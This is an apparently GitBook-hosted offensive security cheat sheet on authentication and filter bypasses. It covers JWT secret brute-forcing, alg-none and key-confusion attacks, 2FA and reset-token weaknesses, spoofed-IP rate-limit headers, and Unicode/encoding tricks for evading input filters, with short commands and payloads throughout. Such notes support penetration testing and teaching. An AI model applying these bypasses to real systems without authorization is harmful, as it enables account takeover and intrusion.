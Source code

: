 # Bypasses

## Auth

### **JWT**

#### **Bruteforce**

Symmetric algorithms are vulnerable to the local bruteforce attack.

* HS256
* HS512
* HS...

You can try to brute such algorithms to issue a new JWT.

```bash
git clone https://github.com/Sjord/jwtcrack.git
cd jwtcrack

#Bruteforce using crackjwt.py
python crackjwt.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcImFkbWluXCIsXCJyb2xlXCI6XCJhZG1pblwifSJ9.8R-KVuXe66y_DXVOVgrEqZEoadjBnpZMNbLGhM8YdAc /usr/share/wordlists/rockyou.txt

#Bruteforce using john
python jwt2john.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcImFkbWluXCIsXCJyb2xlXCI6XCJhZG1pblwifSJ9.8R-KVuXe66y_DXVOVgrEqZEoadjBnpZMNbLGhM8YdAc > jwt.john
john jwt.john #It does not work with Kali-John
```

#### **Alg: none**

Set the algorithm used as "None" and remove the signature part. ****

#### **Change** asymmetric alg to symmetric

If you change the algorithm from RS256 to HS256, the back end code uses the public key as the secret key and then uses the HS256 algorithm to verify the signature.

Then, using the public key and changing SR256 to HS256 we could create a valid signature. You can retrieve the certificate of the web server executing this: 

```bash
openssl s_client -connect example.com:443 2>&1 < /dev/null | sed -n '/-----BEGIN/,/-----END/p' > certificatechain.pem 
openssl x509 -pubkey -in certificatechain.pem -noout > pubkey.pem
```

For this attack you can use the JOSEPH Burp extension. 

1. In the Repeater tab select the JWS tab and select the Key confusion attack. 
2. Load the PEM, Update the request and send it. \(This extension allows you to send the "non" algorithm attack also\).

It is also recommended to use the tool jwt\_tool with the option 2 as the previous Burp Extension does not always works well

### **Password reset links**

They can be:

* Predictable You need to know the generation algorithm to generate your own link
* Reusable Try to look for leaked tokens
* Leaked 90% you can see them in some marketing systems

### **Custom logic**

* Reinvented session algorithms All sessions must be at least:

  * Not predictable
  * Unique
  * Revocable
  * Time limited

  Are you sure, that you did not forget about all such properties in your custom algorithm?

* Custom cryptography, based on obscurity Try to get the app source code and all such security will fall

### 2FA

#### User mapping

It can be not mapped to the user account.  
If so, just try to use an already created token from the account to authenticate.

#### Reusing

Maybe you can reuse an already used token inside the account to authenticate.



## Rate limits

```text
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1

#or use double X-Forwared-For header
X-Forwarded-For:
X-Forwarded-For: 127.0.0.1

Forwarded: for=127.0.0.1; host=127.0.0.1
```

## Filters

### **Dot & digits**

[http://⑯⑨](http://xn--wrhn)。②⑤④。⑯⑨｡②⑤④/

[http://⓪ⓧⓐ⑨](http://xn--wrhznmcl)｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/

[http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/](http://xn--wrha42abtcdd9m3a:80/)

[http://②⑧⑤②⓪③⑨①⑥⑥:80/](http://xn--orhbaeijakm21k:80/)

[http://④②⑤](http://xn--prhde)｡⑤①⓪｡④②⑤｡⑤①⓪:80/

[http://⓪②⑤①](http://xn--orhbj84c)。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥

![](../../.gitbook/assets/image%20%281%29.png)

### **Quote**

* DB
  * $$
  * CHR\(39\)
* %27 / %22

## Special characters

### Dot

```text
evil.com = evil。com = evil%25E3%2580%2582com
```

### Slashes

```text
Python example (2 slashes in advance are for this language escaping)
/ = \\\\\\\\x2f
\\ = \\\\\\\\x5c
```

### Spaces

```text
SQL:
' ' = + = /**/
```

### Quotes

```text
SQL:
' = $$
JS:
' = `
```

### Other

![](../../.gitbook/assets/image%20%282%29.png)

```text
< ~ %e2%89%ae
< ~ %ef%b9%a4
< ~ %ef%bc%9c
> ~ %u226e
> ~ %e2%89%af
> ~ %ef%b9%a5
> ~ %ef%bc%9e
' ~ %ef&bc%87
```

\([https://appcheck-ng.com/unicode-normalization-vulnerabilities-the-special-k-polyglot/\#](https://appcheck-ng.com/unicode-normalization-vulnerabilities-the-special-k-polyglot/#)\)

